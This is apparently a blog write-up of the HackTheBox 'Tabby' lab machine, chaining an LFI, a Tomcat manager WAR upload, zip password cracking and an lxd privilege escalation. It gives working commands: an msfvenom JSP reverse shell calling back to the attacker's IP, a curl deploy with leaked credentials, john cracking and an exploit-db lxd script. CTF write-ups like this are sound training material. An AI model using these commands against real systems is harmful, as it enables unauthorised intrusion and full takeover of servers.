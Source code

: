 ```yaml
---
layout: post
title: HackTheBox Tabby walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, linpeas, ssh, lxd, tomcat, lfi, john]
comments: true
---
```



This is a write up about 'Tabby' box from HackThebox. Tabby machine have the ip address 10.10.10.194 and is rated as easy by the community. I exploited a Local File Inclusion (LFI) vulnerability to get the admin web server credentials, used those credentials to upload a war file and get remote code execution. I found the password of a backup file, logged myself as user 'ash' with it and exploit a 'lxd' privilege escalation vulnerability to get full control of the machine.


![into_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8ef266cc2812400c8683218347a1d3fc.png)



As always I started by port enumeration.


![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/987987c4fcf945e7aa64b25d8536798e.png)




![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/1f617483764c4fbba3a9f9b7a24f0afd.png)




I browser to the main website (on port 80) and found a [LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion).



![suspicious_url.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/d980c4ba589345328af65147252aa056.png)



![lfi.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/27fc66fd9f9447228f593b962893566b.png)

The seconde HTTP server (on port 8080) had a basic installation of tomcat 9. I did my homework and found tomcat versions 7 to 9 were vulnerable to remote code execution if I could upload a malicious WAR file into the server.

Tomcat9 allows users to upload WAR files into the server to  install web applications (see: [remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)) but users must be authenticated and have manager rights define into `tomcat-users.xml` configuration file.
I used the LFI discovered previously to get access to `tomcat-users.xml` configuration file.

![tomcat-users.xml.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/e2780244817345728fc064069c33ee3a.png)

Tomcat is an open-source implementation of the Java servlet technology and can run jsp files. I used `msfvenom` to create a WAR file containing a malicious jsp document and upload the war file with curl.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR-IP-ADDR -f war -o reverseshell.war
curl -v -u 'tomcat':'$3cureP4s5w0rd123!' -T reverseshell.war http://10.10.10.194:8080/manager/text/deploy?path=/reverseshell4444&update=true
```

I used netcat to listen on port 4444 and browser to my newly upload application (http://10.10.10.194:8080/reverseshell4444) to get a shell.


![tomcat_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/e92487ac5644472cb38809675ee6b619.png)


I found a backup file protected by a password own by ash. 



![found_backup_file.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c0fbaabf39734fd8aa4c5d8ae1039119.png)



Any user could read the file so I uploaded it  on my machine and brute force the password with john.

```bash
/usr/sbin/zip2john 16162020_backup.zip  > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```

![backup_password.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/36d527c32c9c49d1882a6f9d650e8003.png)

I used the command `su ash` and log in with the password `admin@it`.

![ash_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/680afd5896ff4d52b1efe8d6e1cf2c93.png)

I enumerated the box for clues that could lead me to a privilege escalation with the automated tool [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) and found I could get to the user ash to root through a [lxd vulnerabilty](https://www.exploit-db.com/exploits/46978).

For the exploit to work properly I needed to upload a container image into the box since Tabby wasn't connected to the internet.

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
./build-alpine
searchsploit -m linux/local/46978.sh
```

I downloaded '46978.sh' script and the container image from my machine into ash root directory and got a root shell on the container.

```
chmod +x 46978.sh
./46978.sh -f CONATAINER_IMAGE
```

![root_container.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/014af8c4a7fd4c54a6b4895471d07390.png)

The file system of Tabby is accessible from `/mnt/root/` and I can make any modification on the box since I'm root on the container. I created a pair of SSH key with `ssh-keygen` command and copy to content of the public key into `/mnt/root/.ssh/authorized_keys` file. 

I SSH into the box as root and got a shell.


![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/5015ddcdcd06472190bc2e70b88565c9.png)

I like realistic box and this box is definitely one of them. I learned a lot about tomcat and lxd privilege root escalation.

# References
- [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [lxd privilege escalation exploit](https://www.exploit-db.com/exploits/46978)
- [Automated Enumaration linux tool](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
- [Tomcat 9 remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)
